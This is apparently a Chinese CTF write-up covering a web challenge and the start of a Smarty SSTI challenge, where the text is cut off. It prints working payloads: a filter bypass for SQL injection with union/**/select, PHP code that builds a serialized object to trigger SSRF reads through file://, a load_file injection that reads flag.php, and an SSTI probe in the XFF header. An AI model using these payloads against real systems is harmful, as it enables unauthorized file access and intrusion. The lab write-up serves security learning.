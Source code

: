 我们尝试sql注入

发现是整数型注入

那就注被

发现过滤了”union select“我们使用union/**/select绕过

接下来就和普通union注入一样了，

可以看到文件的绝对路径和**unserialize报错**

把注入放进第四列发现不报错了

说明第四列数据被进行了反序列化

然后反序列化+get函数中使用了curl 提到curl 不难想到ssrf

ssrf中我们经常利用file://协议读取文件内容。所以我们构造一个反序列化数据

```
<?php
class UserInfo
{
    public $name = "1";
    public $age = 1;
    public $blog = "file:///var/www/html/flag.php";
}
$a=new UserInfo();
echo serialize($a); 
```

将结果作为第四列的参数传递过去，然后我们就得到了flag 的base64加密值.

做完后i回想，本题应该是

#### 非预期解

本题没有过滤load_file 函数，所以可以采用直接读取

```
?no=-1 union/**/ select1,load_file('/var/www/html/flag.php'),3,4-- + 
```

# [CISCN2019 华东南赛区]Web11

### 知识点

smarty模板下ssti

## 题解

根据题目名称，就可以猜到可能是 smarty ssti

进入页面发现显示ip 猜测注入点在xff头

抓包，在XFF头输入{7*7}测试
